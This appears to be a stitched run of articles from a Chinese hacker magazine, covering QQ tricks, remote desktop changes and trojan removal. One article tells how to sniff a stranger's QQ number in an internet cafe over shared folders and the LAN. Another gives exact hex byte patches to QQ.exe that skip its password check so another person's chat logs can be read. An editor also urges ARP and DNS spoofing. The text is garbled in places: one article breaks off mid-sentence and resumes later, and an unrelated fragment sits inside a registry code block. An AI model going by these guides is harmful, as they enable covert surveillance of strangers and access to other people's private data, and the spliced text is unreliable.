- (3) 当多个服务器使用远程终端服务器来提供应用程序共享时，可将所有的远程终端服务器放入一个单一的 OU 来应用安全策略。

### 4. 使用第三方远程终端安全管理软件 2XSecureRDP

2XSecureRDP 是由欧洲的 2X 公司开发的一种免费远程终端连接安全管理工具软件，如图 2，该软件可以有效地保护远程用户，可以根据情况来选择以何种方式对 RDP 进行检验，比如按照 IP 设置、客户端名称、日期时间或者企业所选择的其它标准来进行检验。该软件只允许符合过滤条件的用户进行登录，能够很好地保护运行有终端服务的计算机的安全。

图 2 远程终端服务安全管理软件 2XSecureRDP

### 5. 自动记录远程终端登录日志

由于运行远程终端服务的计算机无法对 IP 地址进行限制，从管理的角度需要进行日志记录，方法是建立一个名称为 TSLog.```
time /t>>TSLog.log
netstat -n -p tcp |find ":3389">>TSLog.log
start Explorer


```

在终端服务配置中，需要覆盖用户的登录脚本设置，并指定为用户登录时需要打开的脚本文件 TSLog.bat，以使每个用户登录后都必须执行该脚本文件。

### 6. 使用应用程序安全工具来限制应用程序访问

可以安装“Windows 2000 Server Resource Kit”中的“计算机管理工具”，然后运行该工具中的“应用安全”来严格限制应用程序的访问，其运行效果如图 3 所示。

## 五、结束语

本文对安装有远程终端服务的计算机的安全问题进行分析讨论，对开启远程终端服务及攻击远程终端服务器的各种技术进行了分析，最后提出了针对远程终端服务的安全解决方法和一些可供参考的安全推荐设置，对提供远程终端服务的计算机用户具有一定参考价值。
# 编辑点评：

文章比较全面地介绍了终端服务，终端服务的性能是十分强悍的，但本身保障安全的措施远不及其功能来得强悍。例如其配置都是存放在注册表中，这就是很大的安全隐患，建议你在配置好终端服务后，用 regedt32 打开相应键值（文中有给出），将其权限设置为只读。另外为大家准备了一份推荐的远程终端服务器设置表，在光盘中。

## 美女，我要找到你

小草

> 黑酷子：不知道 QQ 为什么不推出 Linux 版，不推出也就算了，为什么还要扼制非 TX 的 QQ 客户端？仅仅是因为无法投放自己的广告？难道我们必须开个 VM 才能上 Q？金钱和人心，在天平上的重量，要如何抉择呢？

从本文你可以学到：

- 查看网吧默认共享
- 使用 QQ Sniffer 来取得他人 QQ 号码

我是一名大学生，所以常常到学校周围的网吧上网，我在上网的同时，常常注意分析网吧中的程序和相应设置，从中找到它们的不足和漏洞。这样不但可以使我花很少的钱干更多的事，还为我寻找网吧的漂亮 MM 提供了方便。当你漫不经心地在浏览网页的时候，却突然发现旁边不知道什么时候来了一位漂亮 MM。这时你是不是好想认识一下她呀，可是怎样才能知道她的 QQ 号码呢？（小编：直接手机递过去，“同学，交个朋友……”）

### 一、确定 MM 的 IP 地址

要想知道 MM 的 QQ 号码，需要确定 MM 所在位置的 IP 地址，这样我们才能有的放矢，查找到 MM 的 QQ 号码。首先打开命令提示符，输入“ipconfig”命令就可以查看本机 IP 地址，比如你的 IP 地址为 192.168.1.4，如图 1。
如果 MM 紧挨着你的座位，那么她的 IP 地址就是 192.168.1.3 或 192.168.1.5。如果没有紧挨着的话，可以大面积选取主机范围，然后逐个校对来确认究竟哪台计算机是 MM 的。这对于当时网吧上网人数较少的情况下而言不失为一个好方法。如果网吧人数较多的话应该怎么办呢？这里告诉大家一点技巧：一般网吧为了便于管理和维护，IP 地址最后一部分和座位号相同，你看看自己的 IP 和座位号，一般很容易发现这个规律。

### 二、最快捷的获取方法

通常情况下，大多数网吧管理员都把 QQ 程序默认安装到 C:\Program Files\Tencent\QQ 这个目录下。所有在本地计算机登录过的 QQ 号码，都会被记录到该目录文件夹下。于是我们可以利用网吧共享目录的形式，得到所有在本地计算机中登录过的所有 QQ 号码。首先双击桌面上的“网上邻居”图标，弹出“网络化图形”操作界面，以内部局域网机器的形式排列。然后在下方
编辑区中双击想要查看 QQ 号码的主机 IP 地址，此时可能会出现众多陌生的共享目录名称。找到 Tencent\QQ 文件夹后双击进入，然后该目录中的第一个号码文件夹名称就是此机器最近一次登录的 QQ 号码。如图 2。

### 三、最有效的获取方法

使用上面的方法前提是网吧打开了磁盘共享，如果没有打开磁盘共享怎么办呢？由于网吧是一个局域网，其内部机器的信息交换都是利用 MAC 地址作引导的。正是基于此传送通道的特点，我们可以利用 QQ Sniffer 这款监听工具来获取正在上网的 QQ 信息。

首先将 QQ Sniffer 下载到本地计算机，然后解压运行该程序。当打开该软件的操作界面后，首先点击左上方“网卡”选项中的下拉菜单。如果选项有多个网卡，可以在“设备管理器”里面进行查看。选择其中唯一出现的网卡名称，接着就会自动寻找 MAC 地址、本地 IP 地址、搜索网段以及网关的具体 IP 地址。然后单击“搜索”按钮，不一会儿在“在线主机列表”就会出现网吧所有在线的内网主机 IP 地址。

现在从在线主机列表中，选择所要查看 QQ 号码的机器 IP 地址。操作完毕后，单击上方的“选定”按钮，准备会出现在选定等待的主机 IP，点击“主机名 - 在线 IP”按钮可以获得在线主机的名称。选择好后按“选定”按钮，结果显示在后面的列表框中，如果要重新选择点击“重新选择”按钮即可。

然后点击“到交换机/To HUB”按钮来选择监听时的网络环境是交换机还是集线器。如果按钮显示“到交换机”，此时是交换机状态，按钮显示“To HUB”时是集线器状态。如果是交换机状态，长时间监听可能会导致被监听的计算机无法上网。所以要对大量计算机进行该操作，同时也要不长时间操作，否则所

# 视频聊天七十二变

喻枭

- 从本文你可以学到：
- 为 QQ 视频加入特效
- 使用 WebcamMax Lite 录制和播放视频

QQ 用了有七八年了，从最初的文本聊天到后来的语音聊天，再到现在的视频语音，当代的交友方式越来越多，玩家已不能满足于现有的方式了，有什么怪东西都全用上。我今天介绍给大家一款视频聊天效果的增加工具——WebcamMax Lite（相当于 QQ 的视频秀），如图 1。
它（以下简称 WM）可以在视频中添加边框、字幕、情景、动态 FLASH、表情等多达 1000 种的效果，可惜的是它是英文版的，汉化或者中文补丁我在网站上还没有搜到，这就留给大家了。看到这里有一部分读者可能会灰心了吧，我提供一个方法，英文不好的同志可以用金山快译 2007，关于金山的用法我就不多说了，大家一用就知道了。

首先打开 WM，WM 的界面很简单，从上到下分为菜单栏、预览区、效果工具栏和效果选择区，在效果工具栏和效果选择区里我们只需选择自己喜爱的效果就可以了，很简单的，这里就不多说了，以下是我做的几种效果，如图 2、3、4，设置好以后启动 QQ 视频对方就可以看到你的效果了（也可以边更改 WM 的设置，边和对方视频）。
如果有视频文件要与好友一起分享怎么办，传给对方吗？视频文件动辄几百兆的文件你传来传去不嫌麻烦吗？在这里 WM 可以帮你实现，单击效果工具栏第二项媒体图标，在最右侧点“打开文件”，如图 5。
在这里选择你要播放的视频文件双击打开就行啦。如图 6，就是我打开的视频文件。

前不久看到网上牛人做的一款视频聊天录制软件，好是好，可是总觉得功能太单一了，菜菜们喜欢的是 All in one 啊，嘿嘿！单击菜单栏的工具选项选择 RECORD VIDEO，再确定你要保存的路径和文件名，就出现如图 7 的界面，然后就知道怎么做了吧。
虽然 QQ 视频也有一些功能，但没有 WM 全，而且还要付钱，而 WM 就不同了。其实 WM 的功能远不止这些，我们可以用屏幕录制功能录制屏幕动作，做一个视频教程，还可以给好友播放一些以前录制好的视频，让他们误认为是我们当前的状态，是不是很方便啊！更多的功能就留给大家了，在这里要说的是：软件是死的，人是活的，只要肯动脑筋！好了，就到这吧，有问题可以到 NOHACK 论坛找我，我的 ID：kay4
> **编辑点评：** 类似功能的小程序网上早就能找到了，像“虚拟摄像头”等，但像 WebcamMax Lite 这样一个“All in one”的小工具还真是难得。这款工具的所有资源都是在其安装目录下，为 png 文件，这就意味着你可以随自己的喜好进行添加和修改，是不是很酷？
选范围的计算机可能无法上网。再点击“监听 QQ 号码”按钮就可以得到所选 IP 地址的在线 QQ 号码。截获的 QQ 数据在列表里分为 2 个部分，前面是所监听的 IP 地址和端口，后面是截获的 QQ 号码，如图。

3. 双击该数据就可以将 QQ 号码复制到剪贴板，接下来该怎么办就看你自己了。

> **编辑点评：** 一篇教坏小孩子的文章。不看目的只看技术，这篇文章能帮助你更加了解局域网的环境，并且如果你在局域网里能成功进行嗅探，那我建议你去使用一些 arp 或 Dns 欺骗工具，无论是捉肉鸡还是泡 MM 都会有意想不到的效果。

# 窗口对你不再手忙

小坏坏

- 从本文你可以学到：
通过 4 款软件来隐藏你的窗口

我想大家都有过忙手忙脚最小化窗口（或关闭窗口）的经历吧！原因很简单——不想让突然而至的老板、老妈、老婆看到我们电脑屏幕上正在显示的游戏、日记、MM:-) 等属于个人隐私的东西，今天我介绍几款软件就能为你解决以上的烦恼。

## 第一款 不慌不忙

本人试用不慌不忙破解版 V2.5，由于不慌不忙的一些功能需要 RMB 注册，只好用破解版的，效果还是不错的，打开软件如图 1 界面，左边的辅助功能里有隐藏桌面、关闭声音、藏任务栏、
# 图 1 不慌不忙的界面

关闭程序，大家按自己的需要勾上吧，右边是隐藏时保留的窗口，隐藏窗口时保留一些你指定的窗口，以免隐藏窗口后计算机屏幕显示一片空白。在“设置”按钮里是对呼出程序的热键设置，如图 2。
# 图 2 设置快捷键

设置好热键后，不要在“不使用鼠标左右键”前面打勾，打上的话就不能用鼠标左右键来隐藏窗口，需要热键来隐藏了，有点不方便了。好了，点确定后，点击“隐藏”按钮就可以隐藏该软件了。当你鼠标左、右键同时按下时，软件就能迅速隐藏正在显示的窗口，当危险解除再鼠标左、右键同时按下就能使隐藏的窗口恢复。

## 第二款 Hide Window Plus 隐藏窗口工具

Hide Window Plus 也是一款不错的隐藏窗口工具，不足之处就是用键盘来隐藏窗口的，打开如图 3 的界面，群组隐藏里点击“添加”按钮可以对托盘图标隐藏，如图 4。
# 图 3 Hide Window Plus 的界面
# 图 4 添加要隐藏的程序

在隐藏窗口里可以对隐藏活动窗口和显示最后隐藏的窗口进行热键设置，还有隐藏其托盘图标和窗口被隐藏时静音等功能，在其它里可以对启动屏幕保护程序、关闭显示器、静音、窗口最小化、终止被隐藏的程序功能的热键进行设置，如图 5。大家按习惯设置吧，可以设置随系统启动自动运行。
# 图 5 其他设置界面

类似的还有 Hide Window hotkey，大家自己选择吧。

## 第三款 隐身专家(HideDragon)

运行 HideDragon.exe，如果有不需要被隐藏的窗口，在“窗口列表”列表框里选中，如图 6。最小化程序，同时按下鼠标的左右键就可以达到你要隐藏的效果了，点“选项”还可以对“隐身专家”进行设置，如键盘快捷键、启用密码保护、快速隐藏窗口的相关设置等等。在选项对话框里选择结束“隐身专家”时结束所有程序会直接结束被隐藏的应用程序而不会提示，比如说你用 Word 打了一篇文档，没有保存，用“隐身专家”隐藏后，在退出了“隐身专家”时，Word 就会被结束，而不会提示你保存文档。上面介绍的第二款隐藏窗口工具也有此 Bug，大家在使用的时候要注意。
# 图 6 隐身专家的界面

## 第四款 一键隐藏（XDesktop.exe）

运行程序后会在托盘处出现一个 X 图标，右键－设置出现图 7 画面。
# 图 7 XDesktop 的设置界面

这款软件可以快速切换到不同的桌面上去，起到隐藏原来桌面的效果，对声音、托盘图标都可以隐藏，默认是 WIN 加空格键。软件的最大优点就是如软件说明所述，如果你运行了许多程序，你就可以使用不同的桌面来管理你的进程，你可以在一个桌面上玩边锋游戏，而在第 2 个桌面上面上网，在第 3 个桌面上编辑文档，享受类似 Linux 操作系统多桌面的优点。软件使用很简单，大家自己体验吧。

这几款软件都只有几百 K 而已，是很不错的窗口隐藏工具，有了它们你就可以避免很多麻烦的事了。最后感谢黑黑的菜给我的帮助，也很感谢《黑客手册》在我成长之路上给予的引导，希望《黑客手册》越办越好。

> 编辑点评：现在好多小游戏都设有“老板键”，但像网页上的 Flash 小游戏你就可以用文中的软件来隐藏。而对于像 QQ 这样的程序，还是建议你使用其自带的选项来达到隐藏的效果，因为用程序隐藏，有时会出现一些莫名其妙的问题。

# 打造自己的 QQ 聊天记录查看补丁

OWENHU

## 从本文你可以学到：

- 学会使用 Keymake
- 通过 Keymake 制作自己的 QQ 聊天记录查看补丁

现在，几乎每一个上网的朋友都有自己的 QQ 号码，使用 QQ 进行即时交流成为年轻人的时尚，可人们都不使用真名，想要知道 QQ 号是谁的就比较困难了！昨天，XX 同学 QQ 号被人加了，但又不知道是谁，想让我帮忙找找。不过，要想知道 QQ 是谁的，就必须有此 QQ 的聊天记录。于是，我便自己动手做了一个 QQ 密码破解器，记下过程供大家参考。

**1. 首先，介绍一下我们要用到的工具——Keymake。** Keymake 是中文界面的国产软件，它是一款可以很方便制作自己“注册机”或软件补丁的软件。之所以给“注册机”加上了引号，是因为严格说来，用 Keymake 来制作的“注册机”并不是真正的注册机，只能算是软件的补丁或另类注册机而已。

现在我们就利用它的制作补丁功能制作出 QQ 聊天补丁，突破 QQ 的本地密码验证，使得我们无须输入密码就可以进入 QQ，实现自由查看 QQ 聊天记录的目的！

**2. 破解登录输入密码限制**

下面正式开始。首先，需要下载 16 进制文件编辑器——“UltraEdit 汉化版”来修改 QQ 的主文件，改造出一个无须密码就能登录的 QQ，安装完毕之后，单击桌面上的 UltraEdit 图标运行它，然后点击“文件”菜单中的“打开”，找到 QQ 安装目录下的 QQ.EXE，点击“确定”打开该文件。然后点击“搜索”菜单下的“查找”，在对话框的“查找什么”栏中填入：“0F8499000000837D1801”。

这些代码中的“0F8499000000”就是判定你输入的密码是否和真正的 QQ 密码相等的汇编代码的机器码。然后点击“下一个”按钮查找这些字符串（注意该窗口中的“查找 ASCII 字符”选项一定不能选上），会找到唯一的结果。

然后把其中的“84”改为“85”即可，这样修改的结果使得无论 QQ 密码是否相等，都使程序跳转到登录上 QQ 这段代码中执行程序，这样就突破了 QQ 的密码验证。

最后点击“文件”菜单中的“另存为”，把修改后的文件保存在 QQ 安装目录下，命名为任意名字，如 QQ1.exe，然后关闭 UltraEdit 即可。在离线状态下运行 QQ1.exe，在登录窗口中无须输入密码或随意输入任何字符，点击“登录”按钮都可以直接进入 QQ 中！

对于 2006 版本的 QQ 用户，可以用 UltraEdit 打开 QQ.exe 文件，然后查找如下代码：85C05F0F8489000000，将找到的结果改为：85C05FE98A00000090，以后无须密码也能离线进入 QQ 中，无论是查看或导出聊天记录都可以！

## 3. 制作 QQ 密码破解器

接下来运行 Keymake 开始制作“QQ 密码破解器”。点击“其他”菜单下的“制作补丁文件”，会出现一个制作补丁文件窗口，然后在“窗口标题”中输入任意内容，比如输入“QQ 密码破解器”，在“你的主页”和“你的邮件”中输入你的相关信息即可，如果没有可以不填，这些内容会在你制作的“QQ 密码破解器”中显示出来，如果你想名扬天下的话，还是填入为好。

在“补丁说明”输入该文件的相关说明，这些说明的内容会在你制作的“QQ 密码破解器”运行界面中出现。比方说你可以输入该软件的使用方法和注意事项等，例如输入：“本补丁只可在 QQ 密码忘记时查看以前聊天记录时使用，不可用于非法用途。使用方法：运行本程序，然后按提示找到待打补丁的软件，再点击‘应用’按钮即可。运行 QQ 试试，无须密码就可以在离线状态下进入了！现在你就可以随意浏览自己以前的聊天内容，也可以导出聊天记录。”

接下来点击“浏览”按钮分别找到“原始的文件”（即 QQ.exe）和“已破解文件”（QQ1.exe），然后点击“制作”按钮，会出现一个窗口让你选择补丁文件的界面，可以看到有“界面一（传统样式）”和“界面二（增强样式）”可供选择，我们选择“界面二（增强样式）”，然后单击“确定”按钮，选择好制作出来的补丁文件的保存路径，并将该文件名命名为“QQ 密码破解器”就可以了，最后生成 exe 格式的文件。

注意：使用本方法有一个前提条件，那就是你一定要有一个修改过的 QQ 主文件，还要有一个未修改过的 QQ 主文件。另外，一般说来制作出的补丁文件只能应用于该版本的 QQ，不能混用。

最后把“QQ 密码破解器”拿到朋友家去炫耀一番（我还没这么做，低调低调），运行它试试，界面中有你的大名和使用说明。点击“浏览”按钮找到需要安装补丁的 QQ.exe 文件，单击“应用”按钮即可。然后再运行 QQ 试试，怎么样，在登录时无须输入密码了吧？对于任何号码都如此，哈哈，大功告成了！

之后，我便发现这个 QQ 原来是我们班另一个同学的！他居然说他第一次用 QQ……汗~不过，希望大家能从我的制作过程中得到启发。

> 编辑点评：虽然网上已经流传有 QQ 聊天记录查看补丁了，但自己 DIY 是不是另有一番感受呢？其实原理就是对 QQ 主文件在密码验证部分的跳转更改一下，要做注册机能用的方法也很多，最简单的你可以直接用 rar 把破解好的程序打包，用的时候覆盖就可以了。当然这种注册机对 QQ 版本要求很严格。

# QQ 硬盘快速启动

## 逆天

上网免不了上 QQ，对我们小菜来说 QQ 硬盘更是我们不可多得的资源。

但是对我们这些非会员用户来说，启动 QQ 硬盘那漫长的等待对我们无疑是一个很大的打击。不过上有政策下有对策，我今天就给大家讲一个快速启动 QQ 硬盘的方法。

打开 QQ，在“菜单”中选择“使用 TM 登录”，如图 1。如果未安装，会自动下载安装。
然后在 TM 的面板上点开网络硬盘，是不是很快，而且容量也变为了 32MB，如图 2。

很方便吧！
# QQGAME 也外挂

## Flyh4t[sus]

常玩游戏的人都知道外挂是什么吧？相信很多人也使用过。偶 mm 常常会到 QQgame 上玩小游戏，但是最近常常抱怨遇到一些高手，厉害得超乎想像。后来经过我多方打听，原来 QQGAME 的外挂已经广泛流行开来，包括对对碰、斗地主和连连看等各种小游戏。鉴于危害到 QQGAME 的正常运营，我这里只演示和提供对对碰的外挂，还要感谢偶兄弟幽游。
先看看这个外挂长什么样子，嘿嘿，如图 1 左。使用也很简单，一看就明白。你甚至可以让它自己在后台运行刷分，而你去做其他的事情。要说明的是，加速度时间是选得越小越快，不要搞反了。当然，出于人道主义考虑，也别搞得太快了，不然太打击你的对手了。图 1 右是我测试的截图，不是一般的厉害啊。

# 让 WinXP SP2 支持多个用户同时建立远程桌面连接

黑客力量

旧梦重温：
感觉像过了好长时间，又回到了久违的 Q 版。就像空虚会让时间变得飞快一样，忙碌会让人无暇顾及光阴的流逝，时间变长了，是不是就可以做更多有意义的事情了呢？呵呵，这似乎有些荒谬，不过其中还是有一些哲理的。不知不觉中 2007 年已经过去了 4 个月，其间也许不会觉得怎么样，但现在一定认为时间过得好快呀！是啊，又到了一个五一，大多数朋友还喜欢的节日吧，感觉比春节都爽得多。总是玩也是没有意思的，你是否会觉得一个下午，在洒满了金色阳光的屋子里躺在床上看书是一件惬意的事情呢？尤其是看你爱看的或者已经期待很久的书，我想以后回忆起来一定会蛮怀念的。本期 Q 版黑客给大家准备了几篇动手能力比较强的文章，期望它们能带给你一个充实的五一假期。

- 从本文中你可以学到：
  1、如何设置 WinXP 允许多用户登录
  2、如何使用注册表启用“使用欢迎屏幕”和“使用快速用户切换”
  3、如何使 WinXP 支持两个用户同时建立远程桌面连接

年初，网络上盛传 XP 的 SP2 将支持多个用户同时建立远程桌面连接，当时着实高兴了一阵子。等 SP2 正式版一出来，赶忙试试 SP2 的远程桌面多用户支持，却发现无论如何也不能让两个用户同时登录。无论是同时登录两个远程桌面连接，还是一个远程桌面、一个本地桌面，无论是两者使用相同用户名，还是使用不同用户名，一概行不通。

到底是怎么回事呢？查阅微软有关 SP2 的说明文档，没见到任何有关远程桌面多用户支持的说明。搜索网络，有关远程桌面多用户支持的介绍都是年初的资料，近来这类文章似乎销声匿迹了。那么，是不是微软原来打算让 SP2 支持多个用户同时建立远程桌面连接，后来又取消了呢？

在网上搜索到的一条旧新闻证实了我的猜想，“在安装了 SP2 以后，您的 XP 系统可以像那些服务器操作系统一样，供多人同时在不同地点登录了，虽然这个多人仅仅等于 2 人。”以上是 SP2 还处在 2055 版本的 Beta 测试的时候被公开的一个新特性。这条资料说明，SP2 处在 2055 版本的 Beta 测试的时候是支持多个用户同时建立远程桌面连接的，甚至可能在之后的几个版本中都是支持的，只是在 SP2 正式版中才取消了这一功能的支持。

是什么原因让微软“出尔反尔”我们可以不去追究，SP2 的哪个版本是支持多个用户同时建立远程桌面连接的我们也可以不去研究，但是这么一个大好的新性能我们却不能放弃。我们要把这个被微软摒弃的新特性给找回来。

为了搞清楚这个问题，我在安装了 Windows XP SP2 的电脑上将 SP2 正式版的用于管理远程桌面连接（Terminal Service）的系统文件替换成 SP2 在 2055 版本的系统文件，果然成功地同时建立了两个连接，下面就介绍一下具体的实施步骤。事先需要准备：

- 1、一台安装了 Windows XP SP2 的电脑。
- 2、一份早期版本的 SP2——SP2 英文版 Build 2055 管理远程桌面连接的系统文件 Termsrv.dll。

经测试，若想让 XP SP2 支持多个用户同时建立远程桌面连接，必须具备以下条件：

- 1、用 XP SP2 早期版本中的管理远程桌面连接的系统文件替换掉 XP SP2 正式版的系统文件。
- 2、设置 XP SP2 允许多用户同时登录。
- 3、设置 XP SP2 启用“使用欢迎屏幕”功能和“使用快速用户切换”功能。
- 4、关闭防火墙或者将远程桌面设置为防火墙的“例外”项。

闲话少说，下面就开始我们的发现之旅吧。

# 1、系统文件替换

## （1）关闭系统文件保护

在替换系统文件之前，为保证可以安静地替换系统文件，必不可少的工作就是干掉系统文件保护，以防止修改系统文件时弹出提示框来。但是，网上传播甚至我们杂志刊登的各种方法绝大多数都不成功。而修改系统 sfc_os.dll 文件的方法虽然成功，但不可行——哪能那么容易就得到图形界面的操作权限呢，况且也不安全嘛。我想只有能在命令行界面进行操作的方法，才能算是可行的方法。如果哪位读者在关闭系统文件保护或者安静地替换系统文件方面有新发现，可一定要通知我啊！在此，我就不讨论这部分内容了。

## （2）系统文件替换

Termsrv.dll 文件在系统里有 2 个，一个在 DllCache 文件夹（C:\Windows\System32\DllCache）里，一个在 System32 文件夹（C:\Windows\System32）里。

第一步：替换 DllCache 文件夹中的 termsrv.dll，直接用复制命令覆盖即可：`copy /y c:\termsrv.dll c:\windows\system32\dllcache\termsrv.dll`，命令执行后，自动修改文件，没有提示，也无须确认。

第二步：替换 System32 文件夹中的 termsrv.dll，和上面一样直接使用复制命令，如果远程桌面连接服务已经启动（即该系统文件正在使用中），则该方法肯定失败，系统将提示文件在使用中。
我们来利用 Windows 系统的特性：使用中的系统文件可以改名来修改它。利用这种方法，无论远程桌面服务是否启动，均可成功。将 System32 文件夹中的 termsrv.dll 改名为 ter.dll（这个名字可以随便改）：`rename c:\windows\system32\termsrv.dll ter.dll`。复制我们的 termsrv.dll 到 system32 下：`copy c:\termsrv.dll c:\windows\system32\termsrv.dll`。由于我事先没有关闭系统文件保护，所以在执行完上述复制操作后，一般都会出现如图 1 所示的“Windows 文件保护”提示框，在该提示框中，点击“取消”。之后会弹出如图 2 所示的提示框，在该提示框中，选择“是（Y）”，该提示框就会消失。

# 2、启用多用户同时登录

该项设置可以通过修改注册表实现，建立注册表脚本文件内容如下：

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Licensing Core]
"enableconcurrentsessions"=dword:00000001


```

之后将这个注册表文件导入注册表即可。

# 3、启用“使用欢迎屏幕”和“使用快速用户切换”

（1）背景知识  
①“使用欢迎屏幕”选项：  
启用：用户通过在欢迎屏幕上单击用户的账户名，来登录到计算机上。如果账户有密码，则系统将提示用户键入该密码。  
禁用：启动计算机时，欢迎屏幕将不再出现。用户要登录计算机，必须在标准的“登录到 Windows”对话框中键入你的用户名和密码（如果有的话）。  
②“使用快速用户切换”选项：  
作为 Windows XP Home Edition 和 Windows XP Professional 的一项功能，快速用户切换使你在无须实际从计算机进行注销的情况下，在用户之间进行快速切换。多个用户可共享一台计算机并同时使用它，不必关闭正在运行的程序即可来回切换。  
启用：当用户从计算机注销或者进行快速用户切换时，该用户运行的程序不会自动关闭。  
禁用：当用户从计算机注销时，该用户运行的程序将自动关闭，但是其他用户登录时计算机运行速度将会更快。
（2）设置方法  
有两种方法。第一种方法是在图形界面下进行：进入“控制面板”，选择“用户账户”，然后选择“更改用户登录或注销的方式”，在如图 3 所示的“用户账户”界面中，启用“使用欢迎屏幕”功能和“使用快速用户切换”功能。  
第二种方法是通过修改注册表来实现。建立注册表文件内容如下：

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]
"AllowMultipleTSSessions"=dword:00000001
"LogonType"=dword:00000001
"Background"="0 0 0"


```

之后将注册表文件导入系统注册表即可。导入后，重新启动系统，上述设置生效。

# 4、“突破”防火墙

由于 Windows XP SP2 中存在防火墙，所以必须关闭防火墙或者将远程桌面连接设置为防火墙的“例外”项，远程桌面连接才能正常使用。
打开“控制面板”，进入“Windows 防火墙”设置，在图 4 所示的“常规”界面中，选择“关闭（不推荐）”，这样就关闭了防火墙。
也可以在如图 5 所示的“例外”选项卡中，在“程序和服务”中，将“远程桌面”项目选中，也可以通过“添加程序”或者“添加端口”按钮，将远程桌面连接程序或者该服务使用的 3389 端口添加到“例外”项目中（当然这是在“常规”选项卡中没有设置“不允许例外”的前提下）。

# 5、开启 XP 远程桌面连接服务

（1）启动服务  
第一步：用 SC 命令将远程桌面连接服务的启动方式设置为“自动”。这一步非常重要，因为，在远程桌面连接服务的启动方式设置为“已禁用”时，如果不改变服务的启动方式，那么无论是修改注册表，还是使用 NET START 命令都不能将服务启动，命令为：sc config termservice start= auto。  
第二步：利用修改注册表的方式来启动远程桌面连接服务。建立注册表文件内容如下：

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
"fDenyTSConnections"=dword:00000000

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]
"PortNumber"=dword:00000d3d


运行超级巡警后点击工具栏中的“高级”按钮，接着点击主界面中的“进程管理”标签。“超级巡警”可以自动检测隐藏或存在威胁的进程，当发现可疑的进程后会以黄色进行标注，如果是危险的进程则以红色进行标注，这样我们就可以轻易地检测出隐藏的灰鸽子木马进程。选中灰鸽子木马进程后，在下面的列表中


```

之后将注册表文件导入系统注册表即可。

（2）确认服务启动成功  
如果远程桌面连接服务的启动方式未被设置为“已禁用”，远程桌面连接的端口马上就会被开放。使用下面的命令，就会看到如图 6 所示的情况：`netstat -an | find "3389"`。

# 6、重新启动电脑

电脑重新启动后，就会加载我们的 Termsrv.dll 文件，我们的其他各项设置才会全部生效……我们才能有允许多个用户同时登录的远程桌面。电脑重新启动后，拿出远程桌面连接工具上吧，我们久违了的远程桌面又出现了！如图 7。

顺便说一声，在 Windows XP SP2 中，只有管理员中的成员或者远程桌面用户才能被允许进行远程桌面连接，如何将用户添加到管理员组中就不必讲了吧。下面介绍一下把用户设置为远程桌面用户的方法：仍然打开“控制面板”，打开“系统”并打开“远程”选项卡，单击“选择远程用户”就可以将指定的用户设置为远程桌面用户。

据试验证实，这样的并发连接最多支持两个用户同时登录一个系统，但不能使用相同的账号。当第三个用户发出连接请求时会提示希望断开原有的两个登录用户中的一个连接。

综上所述，改造后的 XP 远程桌面最多允许两个不同的用户同时登录。虽然不能与 Windows Server 2003 强大的终端服务功能相比，但毕竟聊胜于无，勉强可算多用户支持。从中我们可以看出，微软不遗余力地坚持这样的一个原则：作为个人桌面操作系统的 XP，不允许多个用户同时使用。

# 后记

> 在许多黑客论坛上，都可以见到这样的一篇文章《入侵 XP 系统之初步攻略》，这也是对许多 XP 入侵行为影响很大的一篇文章。在文章中，作者对于 XP 的特点做了如下概括：“XP 系统不支持多用户同时登录，同一时间只能允许一个用户连接和登录。”看了这篇文章之后，我想可以把这句话修改为：“默认情况下 XP 系统不支持多用户同时登录，同一时间只能允许一个用户连接和登录，但在对 XP SP2 进行一些简单的设置和修改之后，就可以支持多个用户同时建立远程桌面连接。”我想这篇文章对于 XP 安全性及入侵手段的研究都会产生很大的影响。

[文章中涉及到的 Termsrv.dll 和注册表脚本光盘中有收录]

> **编辑点评：**《手册》在前面某期中收录有一篇《体验 Windows XP 的多用户登陆》的文章，这里之所以又登出同类型的文章也是为了弥补前一篇文章描述不够细致的过失。这篇文章详细地给我们展示了手工使一台 WinXP SP2 正式版系统具有多用户同时登录的远程桌面功能的全过程，从中我们还能学到如何从注册表中开启远程桌面服务以及修改默认端口，另外给我的收获还有从注册表中开启/关闭“使用欢迎屏幕”和“使用快速用户切换”这两个选项。在文章的文字斟酌以及其间和作者意见交换中，小编很佩服作者那种对读者负责的态度。文章要表达清楚并且措辞要严谨，免得引起读者不必要的误会，虽然有时候这会造成语句的臃肿和啰嗦，不过这种精神是值得我们所有作者学习的。尤其是做技术研究的，严谨的态度很重要。

# 会点击鼠标就能清除灰鸽子

蜀国布衣

从本文中你可以学到：

- 1、手工清除各版本灰鸽子服务端的方法
- 2、在 Win9x 下清除灰鸽子服务端的方法

连续三年染指年度十大病毒、被反病毒专家称为最危险的后门程序“灰鸽子”病毒，随着“灰鸽子 2007”的发布正在大规模集中爆发。最近金山总裁雷军表示：“灰鸽子已不再是一个单纯的病毒，其背后是一条制造病毒、贩卖病毒、病毒培训为一体的黑色产业链，从某种意义上讲，灰鸽子的危害超出熊猫烧香 10 倍！”那么我们怎么才能判断自己的系统是否被种植了灰鸽子木马？如果发现灰鸽子木马的话又该如何清除呢？

# 一、灰鸽子木马的运行方式

灰鸽子服务端程序运行以后，首先将自己拷贝到系统的 Windows 目录下，接着再从体内释放 G_Server.dll 和 G_Server_Hook.dll 到 Windows 目录下。G_Server.exe、G_Server.dll 和 G_Server_Hook.dll 三个文件相互配合组成了灰鸽子服务端，有些灰鸽子会多释放出一个名为 G_ServerKey.dll 的文件用来记录键盘操作。请大家注意，G_Server.exe 这个名称并不固定，它可以由黑客自己定制的，比如当定制服务端文件名为 A.exe 时，生成的文件就是 A.exe、A.dll 和 A_Hook.dll。

Windows 目录下的 G_Server.exe 文件将自己注册成服务，Win9x 系统下写入注册表的启动项，所以每次开机都能自动运行，然后接着启动 G_Server.dll 和 G_Server_Hook.dll 并自动退出。G_Server.dll 文件实现后门功能，与控制端客户端进行通信；G_Server_Hook.dll 则通过拦截 API 调用来隐藏文件。因此中毒后我们看不到病毒文件，也看不到病毒注册的服务。随着灰鸽子服务端文件的设置不同，G_Server_Hook.dll 有时候附在 IE 浏览器的进程空间中，有时候则是附在所有进程中。

# 二、灰鸽子主流版本的清除方法

